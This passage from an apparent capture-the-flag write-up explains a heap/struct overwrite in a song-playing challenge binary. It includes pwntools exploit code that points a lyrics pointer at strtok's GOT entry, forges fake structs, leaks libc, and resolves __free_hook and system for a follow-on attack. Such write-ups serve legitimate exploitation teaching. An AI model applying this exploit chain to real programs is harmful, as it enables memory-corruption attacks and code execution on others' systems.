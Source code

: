 **All we have to do is find a place where the program prints out data pointed to by an address we can overwrite.** 

### Combining our file descriptor overwrite with our leak 

When we left off with our exploit we were just about to clobber the top of the `songs` array with our 767 byte write to set more file descriptors to 0. **We can kill two birds with one stone by also overwriting the lyrics pointer of a song with a pointer to a libc address.**  Then when we call `play_song()` for that song instead of calling malloc (which happens if the lyrics pointer is null) the program will print out whatever the lyrics pointer is pointing at. If we point it at the GOT, it will point at an address in libc. 

There's obviously only one GOT entry worth using: `.got:strtok_ptr`, the one for `strtok()` which is at  at `0x403fc8`. 

So we: 
1. Starting from the lyrics pointer field of song #2 in the `songs` array, we overwrite `song[1].lyrics` with the address of the `strtok()` entry in the GOT.
2.  Then we continue overwriting song #3 and song #4 to set their file descriptors to 0. 

	We're just constructing two fake song structs with values of 0 in their fd field, and overwriting 	the real structs for songs #3 and songs #4. We can actually just write mostly null bytes here, because it doesn't matter if we clobber most of the other fields. However we do have to keep a valid ptr in the `album_name` field because the program crashes otherwise. 

```python
play_song("1")
p.sendline("767")

# add of .got:strtok_ptr
strtok_got_addr = p64(0x403fc8)

#We have have to overwrite song #3 and #4 with a valid album_name ptr or the program will crash. (I was too lazy to debug why)

#song     = file_name       + fd     + album_name    + song_name + lyrics
fake_song = p64(0) * 3 + p64(0) + p64(0x404098) + p64(0)  + p64(0)

p.send(strtok_got_addr + fake_song * 2)

play_song("2") # Trigger leak
```  
We can then use some `pwntools` magic to figure out the base address of libc and our addresses of interest in libc: 
```python
play_song("2") # Trigger leak'

# Parse out address leak
strtok = u64(p.readuntil("So").split(b"\n")[-2] + b'\x00\x00')

libc = ELF('./libc-2.27.so') # Load our libc

# Subtract strtok's offset from libc base from the absolute strtok 
# address we leaked to set the libc base address
libc.address = strtok - libc.symbols['strtok'] 

# Get the absolute addresses for __free_hook and system
free_hook = libc.symbols['__free_hook'] 
system_addr = libc.symbols['system']
```
